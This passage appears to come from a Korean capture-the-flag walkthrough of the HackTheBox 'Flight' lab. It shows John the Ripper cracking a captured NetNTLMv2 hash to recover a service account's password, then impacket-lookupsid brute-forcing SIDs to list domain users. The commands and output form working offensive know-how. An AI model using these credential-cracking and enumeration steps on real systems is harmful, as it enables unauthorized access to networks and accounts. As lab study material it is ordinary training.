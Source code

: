 

### Cracking NetNTLMv2 Hash

- 리스폰더를 이용하여 대상 호스트로부터 NetNTLMv2 해시를 획득한 후 크래킹에 성공하였다. (S@Ss!K@*t13)
```zsh
└─# john svc_apache_netntlm_hash --wordlist=./rockyou.txt         
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
S@Ss!K@*t13      (svc_apache)     
1g 0:00:00:06 DONE (2025-08-31 23:27) 0.1582g/s 1687Kp/s 1687Kc/s 1687KC/s SADSAM..S42150461
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

## Domain Enumeration (impakcet-lookupsid)

- `impacket-lookupsid` 도구를 이용하여 도메인 내 유저정보를 추출한다.

```zsh
└─# impacket-lookupsid flight.htb/svc_apache@10.129.124.131           
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at 10.129.124.131
[*] StringBinding ncacn_np:10.129.124.131[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: flight\Administrator (SidTypeUser)
501: flight\Guest (SidTypeUser)
502: flight\krbtgt (SidTypeUser)
512: flight\Domain Admins (SidTypeGroup)
513: flight\Domain Users (SidTypeGroup)
514: flight\Domain Guests (SidTypeGroup)
515: flight\Domain Computers (SidTypeGroup)
516: flight\Domain Controllers (SidTypeGroup)
517: flight\Cert Publishers (SidTypeAlias)
518: flight\Schema Admins (SidTypeGroup)
519: flight\Enterprise Admins (SidTypeGroup)
520: flight\Group Policy Creator Owners (SidTypeGroup)
521: flight\Read-only Domain Controllers (SidTypeGroup)
522: flight\Cloneable Domain Controllers (SidTypeGroup)
525: flight\Protected Users (SidTypeGroup)
526: flight\Key Admins (SidTypeGroup)
527: flight\Enterprise Key Admins (SidTypeGroup)
553: flight\RAS and IAS Servers (SidTypeAlias)
571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
572: flight\Denied RODC Password Replication Group (SidTypeAlias)
1000: flight\Access-Denied Assistance Users (SidTypeAlias)
1001: flight\G0$ (SidTypeUser)
1102: flight\DnsAdmins (SidTypeAlias)
1103: flight\DnsUpdateProxy (SidTypeGroup)
1602: flight\S.Moon (SidTypeUser)
1603: flight\R.Cold (SidTypeUser)
1604: flight\G.Lors (SidTypeUser)
1605: flight\L.Kein (SidTypeUser)
1606: flight\M.Gold (SidTypeUser)
1607: flight\C.Bum (SidTypeUser)
1608: flight\W.Walker (SidTypeUser)
1609: flight\I.Francis (SidTypeUser)
1610: flight\D.Truff (SidTypeUser)
1611: flight\V.Stevens (SidTypeUser)
1612: flight\svc_apache (SidTypeUser)
```